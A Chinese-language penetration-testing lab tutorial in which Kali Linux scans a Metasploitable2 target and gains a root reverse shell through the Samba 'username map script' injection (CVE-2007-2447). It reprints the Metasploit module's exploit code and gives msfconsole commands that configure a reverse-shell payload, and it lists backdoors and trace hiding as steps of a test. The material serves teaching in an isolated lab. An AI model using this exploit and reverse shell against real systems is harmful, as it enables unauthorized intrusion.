# 一次简单的渗透测试实战

## 1. 课程说明

本课程为纯动手实验教程，为了能说清楚实验中的一些操作会加入理论内容，也会精选最值得读的文章推荐给你，在动手实践的同时扎实理论基础。

- *注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

## 2. 学习方法

实验楼的 Kali 系列课程包含五个训练营，本训练营主要讲述服务器攻击方法。课程包含20个实验，每个实验都提供详细的步骤和截图。适用于有一定Linux系统基础，想快速上手 Kali 渗透测试的同学。

学习方法是多实践，多提问。启动实验后按照实验步骤逐步操作，同时理解每一步的详细内容。

如果实验开始部分有推荐阅读的材料，请务必先阅读后再继续实验，理论知识是实践必要的基础。

## 3. 本节内容简介

本实验中我们尝试使用 Kali Linux 进行一次完整的渗透攻击。需要依次完成下面几项任务：

1. 渗透测试的基本流程
2. 启动实验环境
3. 使用 Kali 进行漏洞扫描
4. 分析 Samba 远程命令注入漏洞
5. 使用 Metasploit 渗透攻击 Samba 漏洞
6. 获取远程的 Shell

## 4. 推荐阅读

本节实验推荐阅读下述内容：

1. [Kali Nmap 文档](http://tools.kali.org/information-gathering/nmap)
2. [Samba USERNAME MAP SCRIPT 命令注入漏洞](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)

## 5. 渗透测试的基本流程

渗透测试的流程通常包括以下几个步骤，但在实战中有些步骤可能会省略或合并到其他步骤当中：

1. 收集信息：利用各种工具，尽可能得收集目标系统的各种信息，包括但不限于目标网络信息，网站内容，目录结构，可能的用户名，端口号，服务信息，域名及子域名等。
2. 漏洞扫描：使用扫描工具对目标系统进行完整的扫描，目前有很多现成的自动化的扫描工具，也可以使用手动工具更有针对性的进行漏洞扫描，验证目标系统特定服务的漏洞信息。
3. 渗透漏洞：利用相应的工具，对可以被利用的漏洞进行攻击，包括但不限于使用远程命令执行，注入，破解等等方法，目标是获得目标系统更高的权限访问敏感信息。
4. 创建后门：在目标系统上创建可以维持持续访问的入口，并隐藏自己攻击的痕迹，避免被发现同时也方便未来继续访问。
5. 生成报告：对整个渗透测试的过程和潜在的漏洞完成分析报告，方便目标系统的信息安全加固。

## 6. 实验环境启动

### 6.1 实验环境介绍

实验楼采用的实验环境包含两台虚拟机，分别是攻击机和靶机：

1. 攻击机：Kali Linux 2.0 虚拟机，主机名是 kali，IP 地址为 192.168.122.101，默认用户名密码为 root/toor
2. 靶机：Metasploitable2 虚拟机，主机名是 target，IP 地址为 192.168.122.102，默认用户密码为 msfadmin/msfadmin

### 6.2 查看并启动实验环境

在实验桌面中，双击 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。


首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：



注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。如果 ssh 不能连接，说明虚拟机还没有完全启动起来，需要再等待一下。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


然后打开一个新的终端标签页，SSH 连接到 Metasploitable2 中，用户名 msfadmin，密码 msfadmin：


在 Kali 虚拟机中 `ping target` 测试两台虚拟机都可以通过内部的虚拟网络进行连接，使用 Ctrl-C 退出 ping：



现在两台实验环境都已经启动了，我们可以开始渗透测试了。


## 7. 实验环境下的扫描操作

### 7.1 登录 Kali

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


### 7.2 扫描目标主机

我们可以在 Kali 使用 Nmap 工具扫描 Metasploitable2 中开放的服务，注意 Nmap 的参数使用：

```
nmap -p 1-65535 -T4 -A -v target >/tmp/report.txt
```


nmap 命令很强大，有很多的参数，实验楼的训练营在后续实验中也会进行详细的介绍。这里我们使用到的参数意义如下：

1. `-p`：指定扫描的端口范围
2. `-T4`：设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量
3. `-A`：同时启用操作系统指纹识别和版本检测 
4. `-v`：将会显示扫描过程中的详细信息
5. `>/tmp/report.txt`：将输出的信息重定向到文件中，方便后续对扫描信息进行分析

nmap 命令的更多使用方法等着你自己去多尝试和挖掘。可以在实验楼提供的环境中随意扫描，测试各种不同的参数。

扫描过程大概2-3分钟，完成后会得到一份 `/tmp/report.txt` 扫描报告。

### 7.3 对扫描结果进行分析

我们得到了一份详细的系统扫描报告，从报告中我们可以发现系统提供的各种服务及版本，通过这些版本我们能够找到对应的漏洞信息，从而利用这些软件的漏洞对系统进行攻击。

输出的报告可以使用 vim 命令打开查看，包含开放的服务信息，版本号，操作系统的信息等：




由于 Metasploitable2 系统中开放的大部分服务都是非常老的版本，所以我们非常容易找到其中的任意服务进行渗透测试。这里我们选择 Samba 服务，老版本的 Samba 服务的漏洞非常多，我们首先查看下 Samba 服务的版本信息和开放的端口号：




```
grep -i samba /tmp/report.txt
```


从上述命令的输出结果可以看出，Samba 的版本是 3.0.20，这个版本的 Samba 具备一个非常容易利用的命令注入漏洞 `USERNAME MAP SCRIPT 远程命令注入漏洞`，相关版本对应的漏洞信息可以通过官方网站和 CVE 等安全组织的网站获得。

后续的步骤我们将针对这个漏洞进行分析和利用。

## 8. 分析 Samba USERNAME MAP SCRIPT 远程命令注入漏洞

### 8.1 漏洞基本信息

- CVE 安全组织索引号：[CVE-2007-2447](http://cvedetails.com/cve/cve-2007-2447)
- 影响的系统版本：Samba Samba 3.0.0 - 3.0.25rc3
- Samba 官方漏洞描述：[http://samba.org/samba/security/CVE-2007-2447.html](http://samba.org/samba/security/CVE-2007-2447.html)

### 8.2 漏洞描述

Samba 本身是一个实现 Server Messages Block 协议提供跨平台文件共享服务的应用。

这个漏洞出现的前提是使用了 “username map script” 配置选项，这个选项不是默认的，但在 Metasploitable2 系统中是打开的。

漏洞出现在 Samba 处理 SAM 数据库更新用户口令的代码时，没有对代码进行严格的过滤，便把用户的所有输入信息直接传递给了 `/bin/sh` Shell 执行。从而当设定的用户名中有一些命令字符的时候，我们可以执行任意的系统命令。

### 8.3 攻击模块

我们在本次实验中使用的是 Metasploit 框架下的 Samba 攻击模块，该模块使用 Ruby 语言编写，源代码链接如下：

- [exploit/multi/samba/usermap_script](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb)

攻击模块的代码讲解，包含关键步骤的注释信息：

本次使用的攻击模块代码量很少，不懂 Ruby 也没有关系，只需要了解代码中的大概逻辑。如果对攻击模块的编写感兴趣，可以学习下 Ruby 再来深入研究模块编程细节。


```
...

# 引入 MSF 框架核心模块
require 'msf/core'

# 定义 MSF 模块类
class MetasploitModule < Msf::Exploit::Remote
  ...
  
  # 引入 Samba Client 
  include Msf::Exploit::Remote::SMB::Client

  ...

  # 初始化模块，包含模块名称，描述，作者，License，漏洞索引号，平台等信息
  def initialize(info = {})
```
super(update_info(info,
'Name'           => 'Samba "username map script" Command Execution',
'Description'    => %q{
This module exploits a command execution vulerability in Samba
versions 3.0.20 through 3.0.25rc3 when using the non-default
"username map script" configuration option. By specifying a username
containing shell meta characters, attackers can execute arbitrary
commands.
```

```
No authentication is needed to exploit this vulnerability since
this option is used to map usernames prior to authentication!
},
'Author'         => [ 'jduck' ],
'License'        => MSF_LICENSE,
'References'     =>
[
[ 'CVE', '2007-2447' ],
[ 'OSVDB', '34700' ],
[ 'BID', '23972' ],
[ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
[ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
],
'Platform'       => ['unix'],
'Arch'           => ARCH_CMD,
'Privileged'     => true, # root or nobody user
'Payload'        =>
{
'Space'    => 1024,
'DisableNops' => true,
'Compat'      =>
{
'PayloadType' => 'cmd',
# *_perl and *_ruby work if they are installed
# mileage may vary from system to system..
}
},
'Targets'        =>
[
[ "Automatic", { } ]
],
'DefaultTarget'  => 0,
'DisclosureDate' => 'May 14 2007'))
```

```
# 模块配置参数，使用的远程端口号默认为 139
register_options(
[
Opt::RPORT(139)
], self.class)
```
  end


  # 攻击过程
  def exploit
```

# 连接目标服务 139 端口
connect
```

```
# 使用 payload 构建用户名，其中包含的 nohup 用来让命令在后台运行而不退出
username = "/=`nohup " + payload.encoded + "`"

# 进行 Samba 客户端连接操作，发送命令触发漏洞，如果出错则退出
begin
simple.client.negotiate(false)
simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
rescue ::Timeout::Error, XCEPT::LoginError
# nothing, it either worked or it didn't ;)
end
```

```
handler
```
  end

end
```

## 9. 使用 Metasploit 渗透攻击 Samba 漏洞

### 9.1 启动 Metasploit

从维基百科上获取的介绍：

> Metasploit项目是一个旨在提供安全漏洞信息计算机安全项目，可以协助安全工程师进行渗透测试（penetration testing）及入侵检测系统签名开发。Metasploit项目最为知名的子项目是开源的Metasploit框架，一套针对远程主机进行开发和执行“exploit代码”的工具。

我们后面很快会有实验详细学习 Metasploit 框架，这里我们只是简单的利用这个框架对 Samba 的漏洞进行利用和攻击获取远程执行命令的权限。

首先，我们需要启动 Metasploit 框架，启动的时间比较长，大概 10 分钟，请耐心等待，这段时间可以去熟悉下我们即将利用的漏洞。

启动 Metasploit 框架比较简单，在 Kali 中依次执行下面的命令即可：

```
# 启动 postgreSQL 数据库，因为 Metasploit 需要使用 postgreSQL 进行数据存储
service postgresql start

# 初始化数据库，执行完 msfdb init 命令后需要等待大约 10 分钟再执行 msfconsole，如果 msfconsole 报错，则说明还需等待一段时间。大家可以利用这段时间去熟悉整个文档。
msfdb init

# 启动 msfconsole，进入到操作界面
msfconsole
```

启动过程的截图如下：


再次提醒 msfconsole 启动比较慢，大概要2-3分钟，请耐心等待。

启动后进入到 msf 提示符的界面，后面几个步骤都将在这个提示符下执行：




### 9.2 寻找漏洞对应的攻击模块

后续步骤中我们将直接使用 `exploit/multi/samba/usermap_script` 攻击模块，这里简单介绍下如何查找和选择攻击模块，但由于实验楼的环境中的 MSF 没有建立 cache，所以搜索步骤非常慢，建议`了解下述的搜索步骤即可，直接进入 9.3 节的实验中`。

查找的方法是在 msfconsole 中，首先使用命令 `db_rebuild_cache` 建立查询缓存，这个过程需要把磁盘上的庞大的漏洞数据读入内存中，需要时间比较久，大概10-20分钟，但一次执行后续搜索都会很快，注意这个命令会立刻返回，但会在后台运行，耐心等待15-20分钟后再执行 `search` 命令就可以了。缓存建立的速度问题是 Kali 下 Metasploit  的一个很不方便的地方，目标数据比较大，要把所有的数据都从磁盘读到内存中建立缓存，再加上实验楼用的是虚拟机，不是物理服务器，需要的时间比较久。我们会和实验楼一起想办法解决，目前网上的一些讨论，也都是 `db_rebuild_cache` 的处理方案，先 rebuild cache 再 search，可以在几秒钟返回结果。查找步骤中需要先使用 `search samba` 查找是否有现成的 Samba 攻击模块符合我们靶机提供的服务版本，如果没有的话我们可能要编写一个，在后续的实验中我们也会接触如何写一个自己的 Metasploit 模块。`db_rebuild_cache` 创建缓存后 search 命令的执行速度可以很快在几秒钟得到结果。在搜索的结果中，包含针对不同操作系统平台和不同版本的 Samba 服务攻击模块，注意选择适合我们的。

我们找到了 usermap_script 模块，这个模块可以被用来对漏洞 CVE-2007-2447 进行渗透测试：




### 9.3 配置攻击模块

为了能够用好攻击模块，我们需要进行一些相应的配置。

首先，告诉系统我们将要使用的攻击模块：

```
msf > use exploit/multi/samba/usermap_script
```

查看攻击负荷（payload）列表，在这里 payload 用来在目标被攻陷后创建后门 Shell：

```
msf > show payloads
```



设置 payload 为 `cmd/unix/reverse` 类型，通过 telnet 创建远程 Shell：

```
msf > set payload cmd/unix/reverse
```

查看当前的配置参数，这里会列出当前我们要使用的攻击模块和 payload 的相关参数，包括攻击的目标地址，攻击的目标端口以及后门 Shell 监听的端口号等：

```
msf > show options
```

参数列表截图：



补充设置参数，需要设置攻击目标和攻击机本地的 IP 地址，再次查看先前的扫描结果，Samba 3.0.20 监听在 445 端口上，所以我们需要修改攻击的端口号：

```
msf > set RHOST 192.168.122.102
msf > set LHOST 192.168.122.101
msf > set RPORT 445
```


设置完成后再次查看配置参数：



### 9.4 执行攻击

执行攻击比较简单，只需要输入 `exploit` 命令就可以了：

```
msf > exploit
```



根据输出的信息可以看出我们已经攻击成功建立并连接到了 Shell。


### 9.5 验证是否攻击成功

首先在 Shell 中输入 `whoami` 判断当前的身份，然后查看当前的主机名：



很高兴我们在目标主机获得了 root 权限，可以做很多的事情，比如写入一些信息到某些文件，查看某些文件的内容等等。可以发挥你的想象力尝试更多的操作。

## 10. 总结


本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

1. 渗透测试的基本流程
2. 启动实验环境
3. 使用 Kali 进行漏洞扫描
4. 分析 Samba 远程命令注入漏洞
5. 使用 Metasploit 渗透攻击 Samba 漏洞
6. 获取远程的 Shell

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 11. 作业

按照实验步骤中的扫描结果，根据 Samba 版本号搜索 Samba 服务是否还具有其他的漏洞？这些漏洞是否可以被利用进行攻击获取远程的 Shell？
